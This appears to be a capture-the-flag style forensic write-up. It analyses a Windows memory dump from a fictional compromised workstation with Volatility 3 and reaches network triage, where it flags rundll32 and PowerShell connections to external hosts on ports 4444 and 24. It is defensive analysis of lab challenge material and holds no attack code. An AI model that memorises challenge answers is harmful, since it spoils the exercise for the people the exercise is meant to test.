



## Description

	Happy Grunwald, the CEO of Forela, decided to expand the company's business in Lahore, Pakistan, and brought along his IT Administrator, Alonzo Spire, to help set up the new office and ensure the company's IT infrastructure was running smoothly. However, they faced some challenges due to the language barrier and unreliable power supply in the area. Despite these challenges, they worked closely with local vendors to set up the new office, and Alonzo ensured the IT infrastructure was secure and reliable. They also made an effort to learn about the local culture and customs, which helped them build relationships with the locals. After a few days, Happy received a call from the UK security team, informing him that his workstation had been compromised, despite having received security awareness training and not opening any suspicious emails or links. A memory dump was retrieved and provided to you as the forensic analyst. Your task is to analyze the memory artefact and provide insight into the threat actor who compromised the workstation.


```bash
$ ls -lh
total 7.1G
-rwxrwxrwx 1 jayden jayden 7.1G Mar  9  2023 Dump.mem
-rwxrwxrwx 1 jayden jayden 1.8K Mar 14  2023 First.zip
-rwxrwxrwx 1 jayden jayden    0 Mar 14  2023 Second.zip
```


## Initial Triage

Whenever I receive a memory dump, I have a list of volatility commands I like to go through which will allow me to get a sense of the machine's state during the capture.

```bash
$ vol3 -f Dump.mem windows.info | tee windows_info
...

Variable        Value

Kernel Base     0xf80062c00000
DTB     0x1ad000
Symbols file:///usr/local/lib/python3.13/dist-packages/volatility3/symbols/windows/ntkrnlmp.pdb/5F0CF5D532F385333A9B4ABA25CA6596-1.json.xz
Is64Bit True
IsPAE   False
layer_name      0 WindowsIntel32e
memory_layer    1 FileLayer
KdVersionBlock  0xf8006380f388
Major/Minor     15.19041
MachineType     34404
KeNumberProcessors      8
SystemTime      2023-03-10 06:45:16+00:00
NtSystemRoot    C:\WINDOWS
NtProductType   NtProductWinNt
NtMajorVersion  10
NtMinorVersion  0
PE MajorOperatingSystemVersion  10
PE MinorOperatingSystemVersion  0
PE Machine      34404
PE TimeDateStamp        Sun Mar  4 22:56:30 2074
```

From this output, the important information to note is: 

- This system is running **Windows 10**
- This memory dump was captured on **2023-03-10 at 06:45:16 UTC**. Different threat actors may be active at different times of the day.


Next, I scan for the network objects present:

```bash
$ vol3 -f Dump.mem windows.netscan | tee netscan


Volatility 3 Framework 2.26.2canning finished

Offset  Proto   LocalAddr       LocalPort       ForeignAddr     ForeignPort     State   PID  Owner      Created

0x9800000c7d60  UDPv4   127.0.0.1       58021   *       0               9888    WINWORD.EXE  2023-03-10 06:02:34.000000 UTC
0xdc81cf879570  TCPv4   127.0.0.1       50535   127.0.0.1       5939    ESTABLISHED  5052    TeamViewer.exe     2023-03-10 06:42:09.000000 UTC
0xdc81cf8949f0  TCPv4   0.0.0.0 49690   0.0.0.0 0       LISTENING       680     services.exe 2023-03-10 06:00:47.000000 UTC
0xdc81cf894cb0  TCPv4   0.0.0.0 49690   0.0.0.0 0       LISTENING       680     services.exe 2023-03-10 06:00:47.000000 UTC
0xdc81cf894cb0  TCPv6   ::      49690   ::      0       LISTENING       680     services.exe 2023-03-10 06:00:47.000000 UTC
0xdc81cf90d320  TCPv4   172.17.79.129   50528   204.79.197.222  443     CLOSED  5260 SearchApp.exe      2023-03-10 06:41:45.000000 UTC
0xdc81cf91e2b0  TCPv4   127.0.0.1       49743   127.0.0.1       49744   ESTABLISHED  1128    firefox.exe        2023-03-10 06:01:10.000000 UTC
0xdc81cf91e740  TCPv4   127.0.0.1       50580   127.0.0.1       50581   ESTABLISHED  5052    TeamViewer.exe     2023-03-10 06:44:02.000000 UTC
0xdc81cf927010  TCPv6   ::1     50133   ::1     445     ESTABLISHED     4       System  2023-03-10 06:17:20.000000 UTC
0xdc81cf92b4a0  TCPv4   172.17.79.129   49780   68.219.88.97    443     CLOSED  8608 msedge.exe 2023-03-10 06:01:16.000000 UTC
0xdc81cf92d930  TCPv4   172.17.79.129   49774   204.79.197.203  443     CLOSED  8608 msedge.exe 2023-03-10 06:01:16.000000 UTC
0xdc81cf947010  TCPv4   172.17.79.129   50587   43.204.228.96   24      CLOSED  9620 powershell.exe     2023-03-10 06:44:32.000000 UTC
0xdc81d0466430  TCPv4   172.17.79.129   50573   185.230.212.34  443     CLOSED  1128 firefox.exe        2023-03-10 06:43:36.000000 UTC
0xdc81d06fdb50  TCPv4   0.0.0.0 49664   0.0.0.0 0       LISTENING       744     lsass.exe    2023-03-10 06:00:46.000000 UTC
0xdc81d06fdcb0  TCPv4   0.0.0.0 49664   0.0.0.0 0       LISTENING       744     lsass.exe    2023-03-10 06:00:46.000000 UTC
0xdc81d06fdcb0  TCPv6   ::      49664   ::      0       LISTENING       744     lsass.exe    2023-03-10 06:00:46.000000 UTC
0xdc81d06fde10  TCPv4   0.0.0.0 135     0.0.0.0 0       LISTENING       972     svchost.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d06fde10  TCPv6   ::      135     ::      0       LISTENING       972     svchost.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d06fe390  TCPv4   0.0.0.0 135     0.0.0.0 0       LISTENING       972     svchost.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d13bb1c0  TCPv4   172.17.79.129   50522   13.107.21.200   443     CLOSED  5260 SearchApp.exe      2023-03-10 06:41:39.000000 UTC
0xdc81d1c04010  TCPv4   172.17.79.129   50597   43.204.228.96   24      CLOSED  9620 powershell.exe     2023-03-10 06:45:19.000000 UTC
0xdc81d1dd93c0  UDPv4   0.0.0.0 0       *       0               1088    svchost.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d1ddae50  UDPv4   0.0.0.0 0       *       0               1088    svchost.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d1ddae50  UDPv6   ::      0       *       0               1088    svchost.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d1f11030  UDPv4   0.0.0.0 0       *       0               1260    svchost.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d1f11030  UDPv6   ::      0       *       0               1260    svchost.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d1f111c0  UDPv4   172.17.79.129   138     *       0               4       System  2023-03-10 06:00:46.000000 UTC
0xdc81d1f114e0  UDPv4   172.17.79.129   137     *       0               4       System  2023-03-10 06:00:46.000000 UTC
0xdc81d1f11800  UDPv4   0.0.0.0 5353    *       0               1260    svchost.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d1f12c50  UDPv4   0.0.0.0 5353    *       0               1260    svchost.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d1f12c50  UDPv6   ::      5353    *       0               1260    svchost.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d1f77010  TCPv4   172.17.79.129   50527   13.107.12.254   443     CLOSED  5260 SearchApp.exe      2023-03-10 06:41:44.000000 UTC
0xdc81d2059a20  TCPv4   172.17.79.129   50562   172.17.79.4     88      CLOSED  744  lsass.exe  2023-03-10 06:42:51.000000 UTC
0xdc81d209f4d0  TCPv4   172.17.79.129   50526   13.107.238.62   443     CLOSED  5260 SearchApp.exe      2023-03-10 06:41:44.000000 UTC
0xdc81d20e8c60  UDPv4   127.0.0.1       64703   *       0               1712    svchost.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d2102050  TCPv4   172.17.79.129   50514   37.252.244.134  5938    CLOSED  4992 TeamViewer_Ser     2023-03-10 06:41:10.000000 UTC
0xdc81d23b8650  UDPv4   0.0.0.0 0       *       0               744     lsass.exe    2023-03-10 06:00:46.000000 UTC
0xdc81d23b9140  UDPv4   0.0.0.0 0       *       0               744     lsass.exe    2023-03-10 06:00:46.000000 UTC
0xdc81d23b9140  UDPv6   ::      0       *       0               744     lsass.exe    2023-03-10 06:00:46.000000 UTC
0xdc81d23bbb70  UDPv4   127.0.0.1       59112   *       0               2876    svchost.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d23bbd00  UDPv4   127.0.0.1       59114   *       0               744     lsass.exe    2023-03-10 06:00:46.000000 UTC
0xdc81d24ec670  TCPv4   127.0.0.1       50581   127.0.0.1       50580   ESTABLISHED  5052    TeamViewer.exe     2023-03-10 06:44:02.000000 UTC
0xdc81d259a360  UDPv4   0.0.0.0 0       *       0               744     lsass.exe    2023-03-10 06:00:47.000000 UTC
0xdc81d259a360  UDPv6   ::      0       *       0               744     lsass.exe    2023-03-10 06:00:47.000000 UTC
0xdc81d259c5c0  UDPv4   0.0.0.0 0       *       0               744     lsass.exe    2023-03-10 06:00:47.000000 UTC
0xdc81d26a2560  TCPv4   172.17.79.129   50525   13.107.3.254    443     CLOSED  5260 SearchApp.exe      2023-03-10 06:41:44.000000 UTC
0xdc81d2724010  TCPv4   127.0.0.1       49744   127.0.0.1       49743   ESTABLISHED  1128    firefox.exe        2023-03-10 06:01:10.000000 UTC
0xdc81d27b4720  TCPv4   172.17.79.129   50549   172.17.79.4     3268    ESTABLISHED  9620    powershell.exe     2023-03-10 06:42:49.000000 UTC
0xdc81d27ed4d0  TCPv6   ::1     445     ::1     50133   ESTABLISHED     4       System  2023-03-10 06:17:20.000000 UTC
0xdc81d2960010  TCPv4   172.17.79.129   50178   68.219.88.225   443     CLOSED  4812 audiodg.exe        2023-03-10 06:20:13.000000 UTC
0xdc81d296c1b0  TCPv4   0.0.0.0 7680    0.0.0.0 0       LISTENING       1436    svchost.exe  2023-03-10 06:00:48.000000 UTC
0xdc81d296c1b0  TCPv6   ::      7680    ::      0       LISTENING       1436    svchost.exe  2023-03-10 06:00:48.000000 UTC
0xdc81d2c1c770  UDPv4   0.0.0.0 123     *       0               1088    svchost.exe  2023-03-10 06:00:56.000000 UTC
0xdc81d2c1c770  UDPv6   ::      123     *       0               1088    svchost.exe  2023-03-10 06:00:56.000000 UTC
0xdc81d2c1d580  UDPv4   0.0.0.0 123     *       0               1088    svchost.exe  2023-03-10 06:00:56.000000 UTC
0xdc81d2c3b9e0  UDPv4   127.0.0.1       1900    *       0               7028    svchost.exe  2023-03-10 06:01:08.000000 UTC
0xdc81d2e894a0  TCPv4   172.17.79.129   50561   172.17.79.4     389     CLOSED  9620 powershell.exe     2023-03-10 06:42:50.000000 UTC
0xdc81d2f09aa0  TCPv4   127.0.0.1       49746   127.0.0.1       49745   ESTABLISHED  6536    firefox.exe        2023-03-10 06:01:11.000000 UTC
0xdc81d2f55050  TCPv4   172.17.79.129   50498   20.141.10.212   443     CLOSED  5260 SearchApp.exe      2023-03-10 06:40:03.000000 UTC
0xdc81d301e320  TCPv4   172.17.79.129   50553   172.17.79.4     389     ESTABLISHED  9620    powershell.exe     2023-03-10 06:42:49.000000 UTC
0xdc81d3082260  UDPv6   fe80::3340:25bd:64b:dcf3        57226   *       0            7028    svchost.exe        2023-03-10 06:01:08.000000 UTC
0xdc81d30828a0  UDPv4   172.17.79.129   57228   *       0               7028    svchost.exe  2023-03-10 06:01:08.000000 UTC
0xdc81d3082bc0  UDPv4   127.0.0.1       57229   *       0               7028    svchost.exe  2023-03-10 06:01:08.000000 UTC
0xdc81d3084010  UDPv6   ::1     57227   *       0               7028    svchost.exe  2023-03-10 06:01:08.000000 UTC
0xdc81d3084c90  UDPv4   172.17.79.129   1900    *       0               7028    svchost.exe  2023-03-10 06:01:08.000000 UTC
0xdc81d3085140  UDPv6   ::1     1900    *       0               7028    svchost.exe  2023-03-10 06:01:08.000000 UTC
0xdc81d3085460  UDPv6   fe80::3340:25bd:64b:dcf3        1900    *       0            7028    svchost.exe        2023-03-10 06:01:08.000000 UTC
0xdc81d308aaa0  TCPv4   127.0.0.1       49745   127.0.0.1       49746   ESTABLISHED  6536    firefox.exe        2023-03-10 06:01:11.000000 UTC
0xdc81d3129260  TCPv4   172.17.79.129   50490   52.113.196.254  443     CLOSED  5260 SearchApp.exe      2023-03-10 06:39:55.000000 UTC
0xdc81d34b6b00  TCPv4   172.17.79.129   49922   20.198.119.84   443     ESTABLISHED  2372    svchost.exe        2023-03-10 06:03:46.000000 UTC
0xdc81d34c7b00  TCPv4   172.17.79.129   50431   172.17.79.4     389     CLOSED  7860 tv_w32.exe 2023-03-10 06:36:04.000000 UTC
0xdc81d35afa20  TCPv4   172.17.79.129   50126   13.233.33.88    4444    ESTABLISHED  3932    rundll32.exe       2023-03-10 06:16:53.000000 UTC
0xdc81d3603a20  TCPv4   172.17.79.129   49752   34.210.143.205  443     ESTABLISHED  1128    firefox.exe        2023-03-10 06:01:11.000000 UTC
0xdc81d362fb10  TCPv4   172.17.79.129   50488   43.204.228.96   24      CLOSED  9620 powershell.exe     2023-03-10 06:39:52.000000 UTC
0xdc81d367f010  TCPv4   172.17.79.129   50559   172.17.79.4     389     CLOSED  9620 powershell.exe     2023-03-10 06:42:50.000000 UTC
0xdc81d3821b60  TCPv4   172.17.79.129   50489   20.74.236.255   443     CLOSED  5260 SearchApp.exe      2023-03-10 06:39:54.000000 UTC
0xdc81d3824520  TCPv4   172.17.79.129   50532   43.204.228.96   24      CLOSED  9620 powershell.exe     2023-03-10 06:41:56.000000 UTC
0xdc81d384db10  TCPv4   172.17.79.129   50536   217.146.12.141  5938    ESTABLISHED  4992    TeamViewer_Ser     2023-03-10 06:42:09.000000 UTC
0xdc81d3accaf0  TCPv4   172.17.79.129   49872   185.20.209.23   443     ESTABLISHED  1128    firefox.exe        2023-03-10 06:02:25.000000 UTC
0xdc81d3b7ea20  TCPv4   172.17.79.129   50579   20.50.2.7       443     ESTABLISHED  5052    TeamViewer.exe     2023-03-10 06:44:02.000000 UTC
0xdc81d449a010  TCPv4   172.17.79.129   50434   43.204.228.96   24      CLOSED  9620 powershell.exe     2023-03-10 06:36:12.000000 UTC
0xdc81d455b050  TCPv4   0.0.0.0 49667   0.0.0.0 0       LISTENING       1372    svchost.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d455b050  TCPv6   ::      49667   ::      0       LISTENING       1372    svchost.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d455b1b0  TCPv4   172.17.79.129   139     0.0.0.0 0       LISTENING       4    System  2023-03-10 06:00:46.000000 UTC
0xdc81d455b310  TCPv4   0.0.0.0 49666   0.0.0.0 0       LISTENING       1448    svchost.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d455b310  TCPv6   ::      49666   ::      0       LISTENING       1448    svchost.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d455b470  TCPv4   0.0.0.0 49665   0.0.0.0 0       LISTENING       580     wininit.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d455b730  TCPv4   0.0.0.0 49665   0.0.0.0 0       LISTENING       580     wininit.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d455b730  TCPv6   ::      49665   ::      0       LISTENING       580     wininit.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d455b890  TCPv4   0.0.0.0 49667   0.0.0.0 0       LISTENING       1372    svchost.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d455bb50  TCPv4   0.0.0.0 49669   0.0.0.0 0       LISTENING       2764    spoolsv.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d455bcb0  TCPv4   0.0.0.0 49666   0.0.0.0 0       LISTENING       1448    svchost.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d455c0d0  TCPv4   0.0.0.0 49669   0.0.0.0 0       LISTENING       2764    spoolsv.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d455c0d0  TCPv6   ::      49669   ::      0       LISTENING       2764    spoolsv.exe  2023-03-10 06:00:46.000000 UTC
0xdc81d455c230  TCPv4   0.0.0.0 49670   0.0.0.0 0       LISTENING       744     lsass.exe    2023-03-10 06:00:46.000000 UTC
0xdc81d455c390  TCPv4   0.0.0.0 49670   0.0.0.0 0       LISTENING       744     lsass.exe    2023-03-10 06:00:46.000000 UTC
0xdc81d455c390  TCPv6   ::      49670   ::      0       LISTENING       744     lsass.exe    2023-03-10 06:00:46.000000 UTC
0xdc81d455c650  TCPv4   0.0.0.0 445     0.0.0.0 0       LISTENING       4       System  2023-03-10 06:00:47.000000 UTC
0xdc81d455c650  TCPv6   ::      445     ::      0       LISTENING       4       System  2023-03-10 06:00:47.000000 UTC
0xdc81d455cd30  TCPv4   127.0.0.1       5939    0.0.0.0 0       LISTENING       4992 TeamViewer_Ser     2023-03-10 06:41:09.000000 UTC
0xdc81d4875a20  TCPv4   172.17.79.129   50499   13.107.253.254  443     CLOSED  5260 SearchApp.exe      2023-03-10 06:40:05.000000 UTC
0xdc81d4a5fb60  TCPv4   172.17.79.129   50585   43.204.228.96   24      CLOSED  9620 powershell.exe     2023-03-10 06:44:22.000000 UTC
0xdc81d4a90a20  TCPv4   172.17.79.129   49778   18.161.69.117   443     CLOSE_WAIT   8608    msedge.exe 2023-03-10 06:01:16.000000 UTC
0xdc81d4adda20  TCPv4   172.17.79.129   49777   204.79.197.200  443     CLOSED  8608 msedge.exe 2023-03-10 06:01:16.000000 UTC
0xdc81d4b62a20  TCPv4   172.17.79.129   50496   13.107.237.62   443     CLOSED  5260 SearchApp.exe      2023-03-10 06:40:02.000000 UTC
0xdc81d4b9daf0  TCPv4   172.17.79.129   49842   103.89.74.105   443     CLOSED  1128 firefox.exe        2023-03-10 06:02:25.000000 UTC
0xdc81d4bd6af0  TCPv4   172.17.79.129   49891   185.230.212.30  443     ESTABLISHED  1128    firefox.exe        2023-03-10 06:02:28.000000 UTC
0xdc81d4be7b40  TCPv4   127.0.0.1       5939    127.0.0.1       50535   ESTABLISHED  4992    TeamViewer_Ser     2023-03-10 06:42:09.000000 UTC
0xdc81d4c31260  TCPv4   172.17.79.129   50219   144.2.14.25     443     CLOSE_WAIT   5260    SearchApp.exe      2023-03-10 06:23:19.000000 UTC
0xdc81d808a890  UDPv4   0.0.0.0 5353    *       0               8188    msedge.exe   2023-03-10 06:01:15.000000 UTC
0xdc81d808d5e0  UDPv4   0.0.0.0 5353    *       0               8188    msedge.exe   2023-03-10 06:01:15.000000 UTC
0xdc81d808d5e0  UDPv6   ::      5353    *       0               8188    msedge.exe   2023-03-10 06:01:15.000000 UTC
0xdc81d81a9a20  TCPv4   172.17.79.129   49784   204.79.197.203  443     CLOSED  8608 msedge.exe 2023-03-10 06:01:17.000000 UTC
0xdc81d8410d60  UDPv4   127.0.0.1       58021   *       0               9888    WINWORD.EXE  2023-03-10 06:02:34.000000 UTC
0xdc81d886fa30  UDPv4   0.0.0.0 0       *       0               9620    powershell.exe  2023-03-10 06:03:18.000000 UTC
0xdc81d8875e30  UDPv4   0.0.0.0 0       *       0               9620    powershell.exe  2023-03-10 06:03:18.000000 UTC
0xdc81d8876dd0  UDPv4   0.0.0.0 0       *       0               9620    powershell.exe  2023-03-10 06:03:18.000000 UTC
0xdc81d8876dd0  UDPv6   ::      0       *       0               9620    powershell.exe  2023-03-10 06:03:18.000000 UTC
0xdc81d8877be0  UDPv4   0.0.0.0 0       *       0               9620    powershell.exe  2023-03-10 06:03:18.000000 UTC
0xdc81d8877be0  UDPv6   ::      0       *       0               9620    powershell.exe  2023-03-10 06:03:18.000000 UTC
0xdc81d8ab6150  UDPv4   0.0.0.0 5355    *       0               1260    svchost.exe  2023-03-10 06:30:46.000000 UTC
0xdc81d8ab6150  UDPv6   ::      5355    *       0               1260    svchost.exe  2023-03-10 06:30:46.000000 UTC
0xdc81d8ad3c50  UDPv4   0.0.0.0 5355    *       0               1260    svchost.exe  2023-03-10 06:30:46.000000 UTC
0xdc81d8e4e520  UDPv4   127.0.0.1       52512   *       0               9620    powershell.exe  2023-03-10 06:42:49.000000 UTC
0xdc81d8e52d00  UDPv4   0.0.0.0 56239   *       0               4992    TeamViewer_Ser  2023-03-10 06:41:09.000000 UTC
0xdc81d8e52d00  UDPv6   ::      56239   *       0               4992    TeamViewer_Ser  2023-03-10 06:41:09.000000 UTC
0xdc81d8e531b0  UDPv4   0.0.0.0 56238   *       0               4992    TeamViewer_Ser  2023-03-10 06:41:09.000000 UTC
0xdc81d8e53e30  UDPv4   172.17.79.129   5353    *       0               4992    TeamViewer_Ser  2023-03-10 06:41:14.000000 UTC
0xdc81d8e56b80  UDPv6   ::1     5353    *       0               4992    TeamViewer_Ser  2023-03-10 06:41:14.000000 UTC
0xdc81d8e68c90  UDPv4   172.17.79.129   64877   *       0               8188    msedge.exe   2023-03-10 06:45:15.000000 UTC

```

This returns a big mess of output, so I use the following bash one-liner to normalize the data and filter it down to outbound connections:

```bash
$ awk -F'\t' 'NR==4 {printf "%-20s %-6s %-6s %-20s %s\n", "ForeignAddr", "FPort", "PID", "Owner", "Created"} NR>4 && $5!="*" && $5!="0.0.0.0" &
& $5!="::" {printf "%-20s %-6s %-6s %-20s %s\n", $5, $6, $8, $9, $10}'  netscan | (read -r header; echo "$header"; sort -u)


ForeignAddr          FPort  PID    Owner                Created
103.89.74.105        443    1128   firefox.exe          2023-03-10 06:02:25.000000 UTC
127.0.0.1            49743  1128   firefox.exe          2023-03-10 06:01:10.000000 UTC
127.0.0.1            49744  1128   firefox.exe          2023-03-10 06:01:10.000000 UTC
127.0.0.1            49745  6536   firefox.exe          2023-03-10 06:01:11.000000 UTC
127.0.0.1            49746  6536   firefox.exe          2023-03-10 06:01:11.000000 UTC
127.0.0.1            50535  4992   TeamViewer_Ser       2023-03-10 06:42:09.000000 UTC
127.0.0.1            50580  5052   TeamViewer.exe       2023-03-10 06:44:02.000000 UTC
127.0.0.1            50581  5052   TeamViewer.exe       2023-03-10 06:44:02.000000 UTC
127.0.0.1            5939   5052   TeamViewer.exe       2023-03-10 06:42:09.000000 UTC
13.107.12.254        443    5260   SearchApp.exe        2023-03-10 06:41:44.000000 UTC
13.107.21.200        443    5260   SearchApp.exe        2023-03-10 06:41:39.000000 UTC
13.107.237.62        443    5260   SearchApp.exe        2023-03-10 06:40:02.000000 UTC
13.107.238.62        443    5260   SearchApp.exe        2023-03-10 06:41:44.000000 UTC
13.107.253.254       443    5260   SearchApp.exe        2023-03-10 06:40:05.000000 UTC
13.107.3.254         443    5260   SearchApp.exe        2023-03-10 06:41:44.000000 UTC
13.233.33.88         4444   3932   rundll32.exe         2023-03-10 06:16:53.000000 UTC
144.2.14.25          443    5260   SearchApp.exe        2023-03-10 06:23:19.000000 UTC
172.17.79.4          3268   9620   powershell.exe       2023-03-10 06:42:49.000000 UTC
172.17.79.4          389    7860   tv_w32.exe           2023-03-10 06:36:04.000000 UTC
172.17.79.4          389    9620   powershell.exe       2023-03-10 06:42:49.000000 UTC
172.17.79.4          389    9620   powershell.exe       2023-03-10 06:42:50.000000 UTC
172.17.79.4          88     744    lsass.exe            2023-03-10 06:42:51.000000 UTC
18.161.69.117        443    8608   msedge.exe           2023-03-10 06:01:16.000000 UTC
185.20.209.23        443    1128   firefox.exe          2023-03-10 06:02:25.000000 UTC
185.230.212.30       443    1128   firefox.exe          2023-03-10 06:02:28.000000 UTC
185.230.212.34       443    1128   firefox.exe          2023-03-10 06:43:36.000000 UTC
20.141.10.212        443    5260   SearchApp.exe        2023-03-10 06:40:03.000000 UTC
20.198.119.84        443    2372   svchost.exe          2023-03-10 06:03:46.000000 UTC
20.50.2.7            443    5052   TeamViewer.exe       2023-03-10 06:44:02.000000 UTC
20.74.236.255        443    5260   SearchApp.exe        2023-03-10 06:39:54.000000 UTC
204.79.197.200       443    8608   msedge.exe           2023-03-10 06:01:16.000000 UTC
204.79.197.203       443    8608   msedge.exe           2023-03-10 06:01:16.000000 UTC
204.79.197.203       443    8608   msedge.exe           2023-03-10 06:01:17.000000 UTC
204.79.197.222       443    5260   SearchApp.exe        2023-03-10 06:41:45.000000 UTC
217.146.12.141       5938   4992   TeamViewer_Ser       2023-03-10 06:42:09.000000 UTC
34.210.143.205       443    1128   firefox.exe          2023-03-10 06:01:11.000000 UTC
37.252.244.134       5938   4992   TeamViewer_Ser       2023-03-10 06:41:10.000000 UTC
43.204.228.96        24     9620   powershell.exe       2023-03-10 06:36:12.000000 UTC
43.204.228.96        24     9620   powershell.exe       2023-03-10 06:39:52.000000 UTC
